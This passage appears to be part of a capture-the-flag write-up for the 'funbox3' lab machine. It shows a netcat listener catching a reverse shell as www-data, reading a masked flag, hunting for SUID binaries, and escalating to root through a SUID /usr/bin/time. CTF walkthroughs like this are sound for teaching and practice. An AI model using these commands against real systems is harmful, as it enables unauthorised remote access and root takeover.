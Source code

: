 ### catch connect from target
```bash
$ nc -lvp 80    
listening on [any] 80 ...
192.168.230.111: inverse host lookup failed: Unknown host
connect to [192.168.49.230] from (UNKNOWN) [192.168.230.111] 53368
bash: cannot set terminal process group (737): Inappropriate ioctl for device
bash: no job control in this shell
www-data@funbox3:/var/www/html/store/bootstrap/img$
```

## get first flag
```bash
www-data@funbox3:/var/www$ cd /var/www
cd /var/www
www-data@funbox3:/var/www$ ls
ls
html
local.txt
www-data@funbox3:/var/www$ cat local.txt
cat local.txt
8******************************c
```

## privilege escalation
### checking for `SUID` binaries
```bash
ww-data@funbox3:/var/www$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
<u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwsr-xr-- 1 root messagebus 51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 473576 May 29  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 130152 Jul 10  2020 /usr/lib/snapd/snap-confine
...
-rwsr-xr-x 1 root root 14720 Apr 21  2017 /usr/bin/time
...
```

Checking all the binaries on [`gtfobins`](https://gtfobins.github.io/) reveals that the binary [`time`](https://gtfobins.github.io/gtfobins/time/#suid) can be used for privilege escalation.

```bash
www-data@funbox3:/var/www$ /usr/bin/time /bin/sh -p
/usr/bin/time /bin/sh -p
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

> Root!
{: .prompt-info }
